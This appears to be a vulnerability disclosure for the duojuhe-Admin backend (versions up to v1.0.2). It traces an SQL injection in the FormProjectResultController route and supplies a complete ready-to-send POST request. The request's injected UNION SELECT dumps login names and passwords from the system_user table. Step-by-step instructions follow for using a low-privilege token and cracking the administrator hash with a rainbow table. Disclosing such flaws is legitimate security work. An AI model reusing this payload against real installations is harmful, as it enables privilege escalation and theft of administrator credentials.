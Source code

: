 # The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.


Step 1:Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](./src/img/2025-04-26-154408.png)



Step 2:After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](./src/img/2025-04-26-162251.png)

![2025-04-26 154903](./src/img/2025-04-26-154903.png)



Setp 3:The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](./src/img/2025-04-26-154010.png)



Step 4:To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

1.Log in to an ordinary user to get a token.

![2025-04-26 144221](./src/img/2025-04-26-144221.png)

![2025-04-26 144338](./src/img/2025-04-26-144338.png)

2.Replace token and send payload.

![2025-04-26 144418](./src/img/2025-04-26-144418.png)

![2025-04-26 144517](./src/img/2025-04-26-144517.png)

3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](./src/img/2025-04-26-163147.png)

![2025-04-26 163516](./src/img/2025-04-26-163516.png)
